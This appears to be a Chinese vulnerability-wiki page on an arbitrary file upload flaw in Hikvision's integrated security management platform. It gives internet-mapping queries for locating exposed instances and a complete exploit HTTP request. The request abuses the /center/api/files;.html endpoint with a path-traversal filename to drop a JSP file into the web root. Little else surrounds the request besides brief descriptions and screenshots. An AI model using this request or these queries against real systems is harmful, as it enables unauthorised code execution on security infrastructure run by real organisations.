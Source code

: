 # HiKVISION 综合安防管理平台 files 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 files 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>HiKVISION 综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台" </a-checkbox></br>

<a-checkbox checked>web.title=="综合安防管理平台"  </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1681661275768-9965dbd4-176f-48bc-b55a-062dbe7c5317.png)

需要开放运行管理中心 (8001端口)

![img](../../../.vuepress/public/img/1686202553411-652899eb-3e94-487a-9e7f-f90e245aeb66.png)

```plain
POST /center/api/files;.html HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test3");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![img](../../../.vuepress/public/img/1686044472564-03129d33-f072-40d9-8570-0a96bbb6e30f.png)